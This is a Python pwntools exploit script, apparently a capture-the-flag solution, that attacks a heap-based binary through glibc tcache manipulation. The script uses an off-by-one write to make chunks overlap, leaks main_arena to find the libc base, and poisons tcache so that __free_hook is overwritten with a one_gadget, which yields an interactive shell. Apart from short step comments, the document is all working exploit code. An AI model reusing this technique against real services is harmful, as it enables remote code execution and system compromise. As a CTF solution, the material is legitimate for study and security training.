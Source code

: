 ```python
_free(2)

# Apply again to split unsorted bin
# The array will be filled from 0 ~ 6
remove_tcache(7)

# Split unosrted bin now, we can get 0x200 in prev_size of chunk9
_malloc(0x2, "7") # chunk7
_malloc(0x2, "8") # chunk8

# If we continue use free, they will be put to unosrted bin
# and the prev_size byte will be erased
# therefore, we apply tacache to store them
# We also need to switch there location in list
# Otherwise we cannot erase the prev_inuse byte
_malloc(0x2, "9")
_free(8)
fill_tcache(0, 6)
_free(7)

# off by one
remove_tcache(6)
_malloc(0xf8, "8")

# Again, we need to full filled our TCache to use unsorted bin
fill_tcache(0, 7)

# Trigger Overlap
_free(9)
remove_tcache(7)
_malloc(0x1, "a")

# Leak main_arena
_puts(7)
main_arena = p.recvline()[1:-1]
base = u64(main_arena + '\x00' * 2) - 0x3ebca0
print "base_addr: " + hex(base)
one_gadget = base + 0x4f322
free_hook = base + 0x3ed8e8
print "free_hook:" + hex(free_hook)

# TCache Arbitrary Write
_malloc(2, "0x9")
_free(7)
_free(9)
_malloc(0x10, p64(free_hook))

# Merege chunks to extra write
fill_tcache(0, 7)
remove_tcache(7)
_malloc(0x10, p64(one_gadget))
_free(0)

p.interactive()
```
